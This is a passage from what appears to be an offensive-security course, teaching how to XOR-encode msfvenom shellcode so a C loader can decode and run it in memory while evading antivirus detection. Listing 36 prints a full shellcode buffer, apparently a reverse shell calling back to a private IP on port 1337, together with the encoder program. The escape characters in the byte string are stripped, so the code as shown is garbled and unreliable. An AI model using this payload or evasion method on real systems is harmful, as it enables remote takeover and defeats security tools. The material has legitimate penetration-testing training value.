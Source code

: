 We'll then take the output of our encoder and replace our original C wrapper's payload with the obfuscated version we produced. We'll also add an XOR decoder to our original C program to deobfuscate the payload in memory before executing it.

The code for our encoding program is very similar to our original C program. The key difference lies in the _main_ loop. Instead of running the payload, we're converting each character using XOR and printing it to the console.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"x6ax39x58x0fx05x48x85xc0x74x08x48x31xffx6ax3c"
"x58x0fx05x6ax39x58x0fx05x48x85xc0x74x08x48x31"
"xffx6ax3cx58x0fx05x48x31xffx6ax09x58x99xb6x10"
"x48x89xd6x4dx31xc9x6ax22x41x5axb2x07x0fx05x48"
"x85xc0x78x51x6ax0ax41x59x50x6ax29x58x99x6ax02"
"x5fx6ax01x5ex0fx05x48x85xc0x78x3bx48x97x48xb9"
"x02x00x05x39xc0xa8x76x03x51x48x89xe6x6ax10x5a"
"x6ax2ax58x0fx05x59x48x85xc0x79x25x49xffxc9x74"
"x18x57x6ax23x58x6ax00x6ax05x48x89xe7x48x31xf6"
"x0fx05x59x59x5fx48x85xc0x79xc7x6ax3cx58x6ax01"
"x5fx0fx05x5ex6ax7ex5ax0fx05x48x85xc0x78xedxff"
"xe6";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int payload_length = (int) sizeof(buf);

	for (int i=0; i<payload_length; i++)
	{
		printf("\x%02X",buf[i]^xor_key);
	}

	return 0;

}
```

> Listing 36 - Code to XOR encode our shellcode and output to the screen

The code includes our original msfvenom-generated shellcode buffer as a character array. It defines an XOR key value (in this case, "J") and calculates the length of the buffer string. It then stores that value as an integer in the _payload_length_ variable.

```
char xor_key = 'J';
int payload_length = (int) sizeof(buf);
```

> Listing 37 - First part of our encoder's main loop
